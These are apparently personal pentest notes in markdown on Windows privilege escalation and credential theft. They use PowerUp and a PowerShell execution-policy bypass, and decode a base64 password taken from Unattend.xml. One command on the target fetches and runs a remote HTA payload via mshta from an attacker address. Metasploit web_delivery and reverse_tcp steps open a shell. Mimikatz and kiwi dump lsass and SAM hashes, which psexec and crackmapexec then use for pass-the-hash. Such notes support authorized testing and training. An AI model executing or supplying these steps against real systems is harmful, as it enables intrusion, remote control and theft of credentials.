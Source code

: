 # PowerUp.ps1

- Download url - https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- `powershell -ep bypass` (PowerShell execution policy bypass)
	- `PowerSploit\Privesc>. .\PowerUp.ps1`
	- `Invoke-PrivescAudit` - it will find misconfig files/leftover files like Unattend.xml

	![Invoke-PrivescAudit output](./images/credsdump-01.png)
	
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	$password='QWRtaW5AMTIz'
  	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	echo $password
  	```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

**OR**

- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# Mimikatz

- in meterpreter, first, migrate to lsass.exe process.
- run hashdump in meterpreter
- syskey is used to encrypt sam db

- **load kiwi**
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets

- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- **.\mimkatz.exe**
	- privilege::debug - should return Privilege '20' OK - This should be a standard for running mimikatz as mimikatz needs local administrator access
	- lsadump::sam
	- sekurlsa::logonpasswords

- use **windows/smb/psexec** to use hashes from hashdump as SMBPass
- set target command / native upload

- `crackmapexec smb <ip> -u <administrator> -H "ntlm_hash" -x "ipconfig"`
![crackmapexec output](./images/credsdump-02.png)
